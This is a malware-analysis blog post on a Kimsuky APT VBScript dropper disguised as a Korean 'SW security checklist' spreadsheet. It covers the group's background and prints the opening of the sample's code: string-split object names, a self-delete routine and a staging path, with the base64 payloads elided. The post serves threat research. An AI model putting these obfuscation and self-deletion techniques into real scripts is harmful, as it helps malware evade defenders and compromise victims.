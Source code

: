 ```yaml
---
title: Kimsuky 3
date: 2024-03-12 20:55:00 +0800
categories: [Malware,APT,Kimsuky]
tags: [Kimsuky]
pin: true
---
```


### Introduction
![Kimsuky](https://cdn-images-1.medium.com/v2/resize:fit:800/1*sQuQA3ordtFO3npkGQ2MSg.png "Kimsuky")
*Kimsucky ?*

In my previous [blog post](https://somedieyoungzz.github.io/posts/kimsucky-2/), I covered the analysis of a North Korean-based APT group called Kimsucky APT. We examined a malicious  PowerShell script which acted as  backdoor for the adversary’s purposes. Let’s revise some key points about Kimsucky :

- Kimsuky was first publicly disclosed and named by Kaspersky in 2013. The attack activities can be traced back to 2012. It is an APT organization suspected to have background in East Asian countries.
- The name Kimsuky is given because the email account to which the Russian security company Kaspersky, first reported the group's attack sent the stolen information, was Kimsukyang. 
- It used numerous malicious codes such as Gold Dragon, Babyshark and Appleseed. It is also called Thallium, Velvet Chollima, Black Banshee .

Looking through my daily bazaar feed I found this sample and it was named 
**"SW보안점검표(개발자 사전점검용)_v2.0_beta.xlsm .vbs"** . On translating it was found that it meant **"SW security checklist (for developer preliminary inspection)_v2.0_beta.xlsm .vbs"**. By the looks of it the sample may have been used as a phishing tool to trick a developer into clicking it going by the name. Also note the double extension used in order to make it look more legit.
### VB Script
VBScript, which stands for Visual Basic Scripting Edition, is a lightweight scripting language modeled after Visual Basic. It's primarily used to automate tasks on Windows machines and add interactivity to web pages.
VBScript can download malicious files (often encoded) from the internet and then execute them using commands like ShellExecute etc.
#### Initial Analysis
``` 
On Error Resume Next

Set mQiOw0 = WScript.CreateObject("WSc"&"ri"&"pt.She"&"ll")
Set quOblJ = CreateObject("Scr"&"ipting.File"&"Syst"&"emOb"&"ject")

v8Fh7k = "0x8d"
Sub selfDel
	quOblJ.DeleteFile(WScript.ScriptFullName)
End Sub
Sub main
	kzkdt = mQiOw0.ExpandEnvironmentStrings("%programdata%\")
	If Not quOblJ.FolderExists(kzkdt) Then
		kzkdt = mQiOw0.ExpandEnvironmentStrings("%systemroot%\")
	End If

	hWH9A7w1 = "very large base 64 encoded payload"
	jlv6GMwMm = "very large base 64 encoded thing "

	vawrG3u = "SW��������ǥ(������ �������˿�)_v2.0_beta.xlsm"
	ev1uqrc = "wg5Du.iWJ446"
	auHnoGM = vawrG3u & ".b64"
	o6Nmd7 = ev1uqrc & ".b64"
	brKT0Kw = ev1uqrc & ".bat"
```